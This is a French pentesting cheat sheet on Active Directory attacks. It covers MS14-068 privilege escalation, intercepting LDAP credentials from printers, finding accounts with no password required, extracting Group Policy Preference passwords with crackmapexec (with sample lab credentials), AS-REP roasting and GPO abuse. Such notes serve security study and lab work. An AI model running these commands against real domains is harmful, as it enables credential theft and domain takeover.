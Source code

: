 ```yaml
---
public: true # set to true to make the article publishable
---
```

### Printer Bug
https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/ms-rprn

### MS14-068

Possibilité de passer de simple user à administrateur du domaine grace à cette vulnérabilité.
Outil permettant de l'exploiter https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-068/pykek

Box HTB qui illustre cette technique :  [Mantis](https://app.hackthebox.com/machines/98)

### Sniffer des identifiants LDAP

On peut parfois accéder à des équipements ayant une configuration ldap (par exemple un photocopieur avec la fonction scan to mail.
Dans ce cas, on peut tenter de modifier l'IP du serveur LDAP vers notre propre machine et "tester" la connection pour intercepter les identifiants / mot de passe.
)

### Mot de passe non requis (PASSWORD NOT REQ)

```powershell
Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol

crackmapexec ldap <IP> -u <User> -p <Password> --kdcHost <Host>  --password-not-required
```

## Identifiants dans les partages SMB


### Mots de passes de GPP (Stratégies de groupes de préférence)
```shell-session
crackmapexec smb -L | grep gpp
crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin
crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_password
Get-GPPAutologon.ps1 (Powersploit)
```

### ASRepRoasting

[[ASREPRoasting]]

### GPO Abuse

#### Enumeration
[group3r](https://github.com/Group3r/Group3r), [ADRecon](https://github.com/sense-of-security/ADRecon), [PingCastle](https://www.pingcastle.com/),
[Get-DomainGPO](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainGPO) (poweview)

```powershell
Get-DomainGPO | Select DisplayName
Get-GPO -All | Select DisplayName

$sid=Convert-NameToSid "Domain Users"
Get-DomainGPO | Get-ObjectAcl | ?{$_.SecurityIdentifier -eq $sid}


```

### Exploitation

 [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)
 